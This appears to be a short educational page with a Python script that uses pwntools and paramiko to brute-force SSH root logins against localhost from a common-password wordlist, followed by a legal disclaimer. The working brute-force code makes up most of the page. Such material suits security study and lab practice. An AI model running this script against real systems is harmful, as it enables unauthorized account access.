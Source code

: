 [pwntools SSH documentation 💥](https://docs.pwntools.com/en/stable/tubes/ssh.html "pwnlib.tubes.ssh — SSH")

---

This script uses the `pwn` and `paramiko` modules to perform an SSH login brute-force attack.
```py linenums="1"
from pwn import *
import paramiko

host = "127.0.0.1"
username = "root"
attempts = 0

with open("ssh-common-passwords.txt", "r") as password_list:
    for password in password_list:
        password = password.strip("\n")
        
        try:
            print(f"[{attempts}] Attempting password: '{password}'!")
            response = ssh(host=host, user=username, password=password, timeout=1)

            if response.connected():
                print(f"[>] Valid password found: '{password}'!")
                response.close()
                break
            response.close()
        except paramiko.ssh_exception.AuthenticationException:
            print("[x] Invalid password!")
        attempts += 1
```

!!! warning "Legal Disclaimer"
    This script is for educational purposes only. Unauthorized use of this script against systems without explicit permission is illegal and unethical.